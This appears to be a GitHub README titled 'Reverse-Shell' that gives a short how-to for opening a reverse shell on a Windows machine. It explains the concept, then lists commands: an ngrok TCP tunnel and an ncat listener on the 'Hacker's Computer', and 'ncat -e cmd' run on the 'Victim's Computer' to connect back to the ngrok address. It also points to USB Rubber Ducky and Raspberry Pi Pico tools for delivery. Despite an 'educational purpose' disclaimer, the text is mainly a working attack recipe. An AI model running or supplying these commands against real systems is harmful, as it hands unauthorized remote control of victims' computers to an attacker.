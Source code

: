 # Reverse-Shell
This is a guide on how to perform a reverse shell on Windows.

> This repository is ONLY for educational purpose

❓ **How Reverse Shell Works**
- In a typical remote system access scenario, the user is the client and the target machine is the server. The user initiates a remote shell connection and the target      system listens for such connections. With a reverse shell, the roles are opposite. It is the target machine that initiates the connection to the user, and the user’s    computer listens for incoming connections on a specified port.

> ⚠ ATTENTION ⚠

- This repository does NOT explain how to set a [Raspberry Pi Pico](https://www.amazon.it/IBest-Pico-Microcontroller-Board-Pre-Soldered/dp/B0922F9VYT/ref=sr_1_1_sspa?__mk_it_IT=%C3%85M%C3%85%C5%BD%C3%95%C3%91&crid=23WS773UDH0WZ&keywords=rasberry%2Bpi%2Bpico&qid=1664023352&qu=eyJxc2MiOiIzLjcyIiwicXNhIjoiMy4yMiIsInFzcCI6IjIuNjEifQ%3D%3D&sprefix=rasberry%2Bpi%2Bpico%2Caps%2C105&sr=8-1-spons&spLa=ZW5jcnlwdGVkUXVhbGlmaWVyPUExMjdRSFlKUEc3TDk0JmVuY3J5cHRlZElkPUEwOTgzNzkzM05VN0s2QTFDV05VVyZlbmNyeXB0ZWRBZElkPUEwOTE1NjQ1MkQ3UFIwM01QU1VHSyZ3aWRnZXROYW1lPXNwX2F0ZiZhY3Rpb249Y2xpY2tSZWRpcmVjdCZkb05vdExvZ0NsaWNrPXRydWU&th=1, "Buy a Raspberry Pi Pico") or a [USB Rubber Ducky](https://hak5.org/products/usb-rubber-ducky, "Buy a USB Rubber Ducky").

  - For set a raspberry pi pico or a USB Rubber Ducky: 
    - https://www.youtube.com/watch?v=e_f9p-_JWZw&t=949s&ab_channel=NetworkChuck
    - https://github.com/dbisu/pico-ducky

🧰 **Hacker's Computer**
 1. Download [Ngrok](https://ngrok.com/)
 2. Run ngrok on port `9999` 
 ```
    ngrok tcp 9999
 ```
 3. Create a listener with [Ncat](https://nmap.org/download.html) on another cmd
 ```
    ncat -lvnp 9999
 ```
 🎯 **Victim's Computer**
 ```
 ncat -e cmd \<ngrok IP> \<ngrok PORT>
 ```
  
 > ⚠ ATTENTION ⚠
 
 DIFFERENT NETWORK => Ngrok

SAME NETWOTK - DIFFERENT DEVICES => IPv4 + 9999

SAME DEVICE => 127.0.0.1 + 9999
